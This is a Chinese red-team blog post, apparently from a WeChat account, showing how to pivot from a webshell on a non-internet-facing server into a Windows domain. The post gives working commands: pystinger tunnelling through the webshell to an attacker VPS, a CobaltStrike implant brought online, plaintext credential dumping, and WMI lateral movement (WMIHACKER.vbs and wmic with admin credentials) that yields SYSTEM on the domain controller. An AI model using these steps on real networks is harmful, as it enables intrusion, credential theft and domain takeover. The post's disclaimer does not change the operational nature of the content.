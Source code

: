 ##  [不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#内网渗透 13

#红队攻击 44

#域内渗透 30

#工具使用 18

渗透攻击红队

一个专注于红队攻击的公众号

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181644.png)  
  

大家好，这里是  **渗透攻击红队** ** ** 的第 **68**
篇文章，本公众号会记录一些红队攻击的案例，不定时更新！请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！

  

当跳板机器出网的情况下，我们可以随意内网渗透，只需注意免杀问题，那如何拿到一个 Webshell 不出网的情况下，如何进目标内网？如何上线到 C2？

  

 **不出网的内网域渗透**

##

 **前言**

  

首先是拿到了一个 Webshell：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181645.png)

通过初步判断当前机器 icmp 不出网：

![]()

那怎么办呢？我们可以基于 HTTP 隧道打！  

  

 **基于 HTTP 隧道上线到 CobaltStrike**

  

项目地址：https://github.com/FunnyWolf/pystinger

这个东东可以让 Webshell 实现内网 Socks4 代理，让不出网机器上线到 MSF/CS，使用 python 写的一款工具，支持目标站点
php、jsp（x）、aspx 三种脚本语言！

先上传对应的 Pystinger webshell 文件并成功访问：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181646.png)

然后我们还需要将 stinger_server.exe 上传到目标服务器 ，执行如下命令：  

  * 

    
    
    start c:\Windows\temp\cookie\stinger_server.exe 0.0.0.0

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181647.png)

然后将 stinger_client 上传到 vps ，执行如下命令  

  * 

    
    
    ./stinger_client -w http://saulgoodman.cn:9009//wls-wsat/proxy.jsp -l 0.0.0.0 -p 60000

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181648.png)

此时已将目标服务器的 60020 端口映射到 VPS 的 60020 端口了！  

这个时候我们 CobaltStrike 设置监听，http host 填写目标内网的  IP 地址：192.168.0.9，端口填写 60020:  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181649.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181650.png)

然后我们生成一个 exe，监听器就是刚刚设置的那个：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181651.png)

然后目标运行 exe 马，直接上线到 CobaltStrike：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181652.png)

  

 **内网信息搜集**

  

通过 nbtscan 对当前内网进行信息搜集发现当前内网是存在域环境的：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181653.png)

由于当前已经是 administrator 了，且是 Windows 2008 的机器，可以直接抓明文：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181654.png)

抓到了本地管理员和域管明文还有一些域用户的明文！既然域控是 192.168.0.2 这台，那么直接 WMI 横向把：

  * 

    
    
    shell cscript  c:\windows\temp\WMIHACKER.vbs /cmd 192.168.0.2 BExxxx\administrator vmxxxxx whoami 1

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181655.png)

直接拿到域控 system 权限！我们还可以用系统自带的 WMI 来执行命令，只不过命令不回显：

  *   *   * 

    
    
    wmic /node:192.168.0.2 /user:BEHxxxx\administrator /password:vm$xxxx process call create "cmd.exe /c ipconfig > c:\result.txt"            type \\192.168.0.2\c$\result.txt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181656.png)

这篇文章主要就是想表达不出网也是可以对它进行内网渗透的，并不是遇到不出网环境就不能打内网，方法很多，知识面还是会决定你的杀伤链！

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181657.png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181658.png)

  

  

![]()点分享![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181659.png)点点赞![]()点在看

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

[不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

